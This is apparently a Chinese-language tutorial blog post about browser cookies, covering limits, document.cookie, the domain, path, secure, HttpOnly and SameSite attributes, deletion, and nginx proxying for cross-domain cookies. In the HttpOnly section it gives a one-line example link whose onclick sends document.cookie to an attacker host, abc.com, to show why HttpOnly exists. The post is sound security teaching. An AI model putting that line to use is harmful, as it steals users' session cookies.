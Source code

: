 ```yaml
---
title: 浏览器中的cookie
description: 浏览器中的cookie
categories:
 - technology
tags:
---
```



### 1、cookie是什么

科学百科中给的定义是：cookie是在http协议下，服务器或脚本可以维护客户工作站上信息的一种方式。cookie是由Web服务器保存在用户浏览器上的小文本文件，它可以包含有关用户的信息。无论何时用户链接到服务器，Web站点都可以访问cookie信息。

简单来说就是存储在浏览器中的纯文本，浏览器的安装目录下会专门有个cookie文件夹存放各个域下的cookie。

它是服务器发送到用户浏览器并保存在本地的一小块数据，当浏览器下次向同一服务器再发起请求时被携带并发送到服务器上，体现在自动添加到request header中的cookie字段里面。这一过程是浏览器自动帮我们做的，并且是每次请求浏览器都会自动做的事情。基于这个特点，cookie中存放的数据就有一定的要求，比如必须是每个请求都会发送给服务端的数据（如身份验证信息），否则的话浏览器自动设置添加这些cookie无疑会增加网络开销，并不合适。

![图片]({{site.url}}/assets/images/note/cookie5.png)

cookie标准是有限制的：

- 每个域名下的cookie的大小最大为4KB，超出会被截掉并且不会被发送至服务器；

- 每个域名下的cookie数量最多为20个（但现在很多浏览器还是支持大于20个的）。

注：原始规范中限定每个域名下不超过 20 个 cookie，早期的浏览器都遵循该规范，并且在 IE7 中有更近一步的提升。在微软的一次更新中，他们在 IE7 中增加 cookie 的限制数量到 50 个，与此同时 Opera 、Safari、Firefox 和 Chrome 对与每个域名下的 cookie 个数没有限制（opera本来是由30个数量限制的，后转用webkit内核，无限制了）。

这些限制主要在阻止滥用cookie，数量过多的话会严重影响请求的性能。

#### 1）存储cookie

cookie可以由服务端通过Set-Cookie方法设置，也可以通过js的 document.cookie = "name=value"设置。

- 浏览器端 通过document.cookie设置cookie，每次只能设置一个值，设置多个后面的无效;

- document.cookie设置值可以不用遵守name=value的形式，直接设置一个字符串也是可以存储成功的；

- 服务端，通过response.setHeader中的set-cookie设置， 同样不能将多个cookie放在一个set-cookie字段中。

![图片]({{site.url}}/assets/images/note/cookie4.jpg)

![图片]({{site.url}}/assets/images/note/cookie3.png)

服务端同样可以设置可选项。

#### 2）cookie编码

##### a.值不能包含空格，括号，括号，等号，逗号，双引号，斜杠，问号，符号，冒号和分号。

##### b.使用 unicode 字符时需要对 unicode 字符进行编码，否则会乱码（中文属于 unicode 字符，在内存中占4个字符，而英文属于ASCII字符，内存中只占2个字节）。

##### c.cookie 不仅可以使用 ASCII 字符与 unicode 字符，还可以使用二进制数据。例如在 cookie 中使用数字证书，提供安全度。使用二进制数据时也需要进行编码。

#### 3）js获取cookie的API

通过document.cookie方法可以获取cookie，但是注意，这种方式只能获取到非HttpOnly类型的cookie。

![图片]({{site.url}}/assets/images/note/cookie1.jpg)


#### 4）cookie的可选项

cookie共有domain、path、expires（max-age）、httpOnly、secure这几种。每设置一个cookie，都会包含这些信息，如果没有设置这些属性，则会使用这些属性的默认值，如：

```javascript
document.cookie = "key=value; expires=Thu, 25 Feb 2016 04:18:00 GMT; domain=.dasouche.net; path=/; secure; HttpOnly";
```

指定的可选项只能在浏览器中查看参考，并不会被带到服务端。

##### a.expires/max-age

这个可选项代表cookie什么时候过期，过期了这个cookie也就不存在了。它的格式必须是GMT的时间（new Date().toGMTString()或者 new Date().toUTCString()）。

- 如果没有设置该可选项，那么这个cookie在浏览器关闭后就冇（mao 三声，意思是没有）啦。

<!-- ![图片]({{site.url}}/assets/images/note/cookie2.jpeg) -->

（ps:别问为什么一个东北人要给你们科普粤语，问就是剧情需要）

- 这个可选项是http/1.0协议的概念，http/1.1用max-age代替，两者作用一样，只是max-age的格式是以秒为单位的数字，并且如果设置为-1，则代表永远失效；如果设置为0，代表删除cookie。

##### b.domain和path

domain指定了 cookie 将要被发送至哪个或哪些域中，path代表要发送的具体路径，两者加起来就组成了个完整的URL，domain和path一起来限制cookie能被哪些URL访问，也就证明了不同域名的cookie是不能共享的（二级域名除外）。核实过domain后才会对path进行比较。

也就是说满足以上两个条件（domain可以是一级也可以是二级域名）的url，都会在请求头中设置浏览器中的cookie。

在没有设置这两个可选项的情况下，则会使用默认值。domain的默认值为设置该cookie的网页所在的域名，path默认值为设置该cookie的网页所在的目录。

但是要注意两点：

- 发生跨域xhr请求时，即使请求URL的域名和路径都满足cookie的domain和path，默认情况下cookie也不会自动被添加到请求头部中。

- domain是可以设置为页面本身的域名（本域），或页面本身域名的父域，但不能是公共后缀(com、net、cn、cc等等)。举例说明下：如果页面域名为 www.baidu.com, domain可以设置为“www.baidu.com”，也可以设置为“baidu.com”，但不能设置为“.com”或“com”。

- cookie不区分端口，假设在127.0.0.1:8000设置了某些cookie，然后修改端口，重新发送请求，还是可以拷打request header中带上了
之前不同端口时设置的cookie字段。

主要原因是：浏览器在判断是否是第三方（跨域）请求时，用的判断逻辑不是同源策略，而是用了 [Public Suffix List](https://publicsuffix.org/list/public_suffix_list.dat) 来判断。举个例子：foo.a.com 和 bar.a.com 是不同源的，但很有可能是同一个站点的，a.com 和 a.com:8000 是不同源的，但它俩绝对是属于同一个站点的。

##### c.secure

这个可选项代表设置的cookie只在安全环境中发送，也就是说，在https或其他安全协议中，包含secure选项的cookie才能被发送到服务器，防止信息在传递的过程中造成信息泄漏。

默认情况下，服务端设置cookie时不会带secure选项。所以默认情况下，不管是HTTPS协议还是HTTP协议的请求，cookie 都会被发送至服务端。被发送到服务端后，在 HTTPS 链接上传输的 cookie 都会在服务端被添加上 secure 选项（一般有框架自动做这个事情）。

注：在http协议的网页中是无法设置secure类型cookie的；且在服务端也是只有https的情况下才能写入secure的cookie。

##### d.httpOnly

这个可选项用来设置cookie是否能通过js去访问。在客户端是不能通过js代码去设置一个httpOnly类型的cookie的，这种类型的cookie只能通过服务端来设置。

这样做是为了保障安全。如果任何cookie都能被客户端通过document.cookie获取的话，假设有一段恶意的script脚本插到了网页中，这段script脚本通过document.cookie读取了用户身份验证相关的cookie，并将这些cookie发送到了攻击者的服务器。攻击者轻而易举就拿到了用户身份验证信息，一点安全性都没有。-->

```javascript
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

##### e.SameSite
        
cookie一开始被设计成了允许第三方网站共享的，但是这样很容易引起CSRF攻击。为了防止CSRF攻击，已经有的办法是CSRF token校验和referer请求头校验。但为了从根源上解决这个问题，为 Set-Cookie 响应头新增 SameSite 属性，它有以下三个可选值：

- Strict：表示严格模式，表明这个cookie在任何情况下都不可能作为第三方cookie。

```javascript
    response.setHeader("Set-Cookie", "a=1; SameSite=Strict;");
    response.setHeader("Set-Cookie", "b=2;");
```

在A域名下发起一个域名为B的任意请求，这时 cookie a 不会被发送出去，也就是不会被包含到请求头中，但 cookie b 会。

- Lax：宽松模式，比strict放宽了点限制。

```javascript
    response.setHeader("Set-Cookie", "a=1; SameSite=Strict;");
    response.setHeader("Set-Cookie", "b=2; SameSite=Lax;");
    response.setHeader("Set-Cookie", "c=3;");
```

在A域名下点击进入一个域名为B的链接，这时 cookie a 不会被包含到请求头中，但 cookie b、 cookie c 会；但假如在A域名下发起一个域名为B的请求（<script>、<link>、<img>、<iframe> 等标签发起的请求，还有通过各种发送 HTTP 请求的 DOM API（XHR，fetch，sendBeacon）发起的请求），不会带上 cookie b。 






### 2、修改和删除cookie

- 修改一个cookie只需要重新赋值。但要注意在设置新cookie时，name/path/domain这几个选项一定要与旧的cookie保持一样。否则不会修改旧值，而是添加了一个新的 cookie。

- 删除一个cookie可以将这个新cookie的expires选项设置为一个过去的时间点。但同样要注意，name/path/domain/这几个选项一定要与旧的cookie 保持一样。

自动删除cookie的条件：

- 未设置expires的cookie的会话被关闭。

- 设置了expires的cookie达到失效日期被删除。

- 浏览器cookie达到上限，为了给新建cookie腾出空间，会删除原有的cookie。（但实际上cookie在现代浏览器中没有个数限制了，所以此条可以忽略）


### 3、如何解决cookie跨域问题

#### 1）host绑定

#### 2) 用nginx的反向代理解决

比如localhost:8080不具备的cookie，可以通过为其设置proxy_pass和proxy_set_header代理到线上已有的域名上，

```javascript
server {
    listen      80;
    server_name test.dasouche-inc.net;
    location ~* ^.+\.(xls|woff2|woff|ttf|log|jpg|jpeg|gif|png|ico|html|cfm|cfc|afp|asp|lasso|pl|py|txt|fla|swf|zip|js|css|less|hot-update.json)$ {
        expires -1;
        proxy_pass http://127.0.0.1:8082;
    }
    location / {
        proxy_pass http://172.17.40.162;
        proxy_set_header Host "dforce-platform-web.dasouche-inc.net";
    }
}
```

proxy_set_header Cookie $http_cookie;

以上两种方法原理相同，都是通过代理的方式，让原本不具备某些cookie的页面能共享到有效cookie，从而能正确发起请求。

问题：

### Q1：xhr跨域请求 set-cookie可以被删除吗？

A1：a.com向b.com发送请求，分以下几种情况，第一种，b.com的服务端设置的cookie 域名是a.com，此时，在浏览器中可以直接访问a.com的页面删除此cookie；若b.com的服务端设置的cookie 域名是b.com，此时，在a.com中看不到此cookie，无法从浏览器端删除，只能再次发送某个请求给b.com进行删除。

### Q2：某个cookie的domain是sso.dasouche-inc.net 那么xx.sso.dasouche-inc.net 可以访问这个域名的cookie 吗

A2：不可以的，除非这个cookie的domain是.sso.dasouche-inc.net。

### Q3：有没有什么办法能够让cookie只被.dasouche-inc.net访问 而不被精准的域名下的路径访问

A3：暂时没有想到通过修改request headers来实现此场景。


参考文档：

[聊一聊cookie](https://segmentfault.com/a/1190000004556040)

[解决cookie跨域访问](https://www.cnblogs.com/hujunzheng/p/5744755.html)

[SameSite Cookie，防止 CSRF 攻击](https://www.cnblogs.com/ziyunfei/p/5637945.html)
